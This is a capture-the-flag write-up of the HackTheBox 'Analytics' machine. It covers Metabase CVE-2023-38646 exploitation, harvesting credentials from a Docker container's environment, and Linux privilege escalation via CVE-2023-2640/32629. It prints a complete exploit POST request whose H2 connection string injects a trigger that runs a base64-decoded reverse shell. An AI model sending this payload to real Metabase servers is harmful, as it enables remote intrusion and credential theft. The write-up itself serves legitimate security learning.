

# HackTheBox - Analytics

It started with a portscan as usual.


We see a web server and SSH server.

So I took a look at the website.


The __Login__ option at the top right leads us to a subdomain which I entered in `/etc/hosts` and navigated to.


Now I looked to see if there were any interesting vulnerabilities for __Metabase__.

I quickly found what I was looking for and also found a suitable [POC](https://github.com/shamo0/CVE-2023-38646-PoC).

By calling `/api/session/properties` with the `GET` method I got the session token we need for the exploit and a version number, which also confirms that it is really our vulnerable version.


I couldn't get a reverse shell with the POC code.
So I fetched the raw `POST` request and modified it a little.


```
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 820

{
    "token": "<SESSION_TOKEN>>",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,<BASE64_ENCODED_REV_SHELL>}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

I specified the session token and changed the base64 encoded reverse shell, submitted the request in Burp and got a reverse shell on my netcat listener.

## Docker -> Host


At this point, it took a while and I got a bit lost.
I quickly found out that I was in a container (Docker).

I dedicated a long time to `h2 Database` and tried to somehow extract passwords from it.

Later I enumerated the system again more precisely.
The script `run_metabase.sh` base under `/app` showed me where to look.


So I looked into the environment variables using `env` and...


...Bingo!

The passwords and the username were valid on the host system and I was already out of the Docker and got the first flag.


## Privilege Escalation

I was also stuck with Privilege Escalation for a long time.

I enumerated and enumerated the system and just couldn't find anything useful.

So towards the end I looked for __recent Zeroday Exploits__ against which the system could still be vulnerable.

Which brought me to __CVE-2023-2640__ / __CVE-2023-32629__.

First of all, I used an exploit oneliner, which gave me a python3 binary with SETUID-cap assigned, which I then used to get root, but still got "Permission denied" when performing any operations that require a root user.

The following [exploit](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh) finally worked and I got a shell as `root` and got the final flag.


 
